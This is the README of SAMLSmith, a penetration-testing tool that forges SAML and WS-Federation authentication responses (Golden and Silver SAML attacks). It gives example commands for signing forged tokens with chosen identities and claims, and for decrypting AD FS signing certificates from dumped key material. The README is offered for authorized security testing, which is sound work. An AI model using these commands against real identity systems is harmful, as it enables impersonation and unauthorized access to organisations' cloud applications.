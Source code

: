 # SAMLSmith
<img src="assets/Logo.png" width="25%" height="25%">

[![.NET](https://img.shields.io/badge/.NET-6.0-blue.svg)](https://dotnet.microsoft.com/download/dotnet/6.0)


SAMLSmith is a C# tool for generating custom SAML responses and implementing Silver SAML and Golden SAML attacks. It provides comprehensive functionality for security researchers and penetration testers working with SAML-based authentication systems.

For detailed information about Silver SAML, see: [Meet Silver SAML, Golden SAML In the Cloud](https://www.semperis.com/blog/meet-silver-saml/)



## Usage

SAMLSmith provides four primary commands for different operational scenarios:

| Command | Purpose | Input Method |
|---------|---------|--------------|
| `generate` | SAML response generation | Command line parameters |
| `generateJSON` | SAML response generation | JSON configuration file |
| `generateWSJSON` | WS-Federation response generation | JSON configuration file |
| `generatePFX` | Certificate extraction | AD FS encrypted materials |

## Commands

### generate

Generate SAML responses using command line parameters:

**Parameters:**
- `--pfxPath` - Path to the PFX certificate file
- `--pfxPassword` - Password for the PFX file (optional)
- `--idpid` - Identity Provider Identifier
- `--recipient` - SAML response recipient URL
- `--subjectnameid` - Subject NameID in the SAML response
- `--audience` - Audience for the SAML response
- `--attributes` - Claims/attributes in key=value,key=value format
- `--inResponseTo` - InResponseTo parameter (optional)

**Example:**
```bash
SAMLSmith.exe generate --pfxPath C:\certs\signing.pfx --pfxPassword password123 --idpid https://sts.company.com/adfs/services/trust --recipient https://app.company.com/sso/saml --subjectnameid user@company.com --audience https://app.company.com --attributes "upn=user@company.com,name=John Doe,email=user@company.com"
```

### generateJSON

Generate SAML responses using JSON configuration files:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Usage:**
```bash
SAMLSmith.exe generateJSON --jsonFile config.json
```

### generateWSJSON

Generate WS-Federation responses using JSON configuration files. Note that the attributes format differs from the SAML JSON format:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Important:** For WS-Federation, the `attributes` field uses a comma-separated string format rather than a JSON object structure.

**Usage:**
```bash
SAMLSmith.exe generateWSJSON --jsonFile ws-config.json
```

### generatePFX

Extract usable certificate files from AD FS encrypted materials. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable PFX certificate file for token signing:

**Parameters:**
- `--encryptedPFXPath` - Path to the EncryptedPFX blob from AD FS configuration database
- `--dkmKeyPath` - Path to the DKM decryption key from Active Directory
- `--pfxOutputPath` - Output path for the decrypted PFX certificate file

**Example:**
```bash
SAMLSmith.exe generatePFX --encryptedPFXPath C:\dumps\EncryptedPfx.bin --dkmKeyPath C:\dumps\DkmKey.bin --pfxOutputPath C:\output\signing_cert.pfx
```

## Credits

This tool includes components translated from the original Python tool [ADFSpoof](https://github.com/mandiant/ADFSpoof) created by Doug Bienstock while at Mandiant FireEye, licensed under Apache License 2.0. The `EncryptedPFXDecryptor` class is a C# translation of the PFX decryption functionality from ADFSpoof.

## References

- [Meet Silver SAML, Golden SAML In the Cloud - Semperis](https://www.semperis.com/blog/meet-silver-saml/)
- [Golden SAML Attack Technique - CyberArk](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)
- [ADFSpoof - Original Python Implementation](https://github.com/mandiant/ADFSpoof)

## Legal Notice


This project is distributed under the terms of the Apache 2.0 license. It is provided for informational purposes and the responsible remediation of security vulnerabilities. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not guarantee accuracy or completeness and disclaims any liability arising from the use of this project.
This tool is intended for authorized security testing and research purposes only. Users must ensure they have proper authorization before testing against any systems. The authors assume no responsibility for misuse of this tool.
